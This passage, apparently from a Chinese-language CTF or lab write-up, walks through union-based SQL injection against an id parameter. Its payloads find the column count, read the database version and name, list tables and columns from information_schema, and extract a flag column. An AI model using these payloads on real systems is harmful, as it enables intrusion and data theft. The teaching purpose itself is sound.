 #### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1" ORDER BY 3 %23  # 页面正常，显示第一条数据"
?id=1" ORDER BY 4 %23  # 页面报错，确定列数为3列"

联合查询注入
?id=0" UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据"

查询当前数据库版本和数据库名
?id=0" UNION SELECT 1,version(),database() %23    # 页面回显数据"

查询当前数据库下的所有表名
?id=0" UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_yoyoy' %23                        #"

查询该表中所有的列名
?id=0" UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='f4alg' %23                        #"

查询实际数据
?id=0" UNION SELECT 1,2,group_concat(f4alg) FROM f4alg %23                                   #"

```


<br>
## 总结
如果你能写出自己的wp，那么说明你可能真的理解了吧。
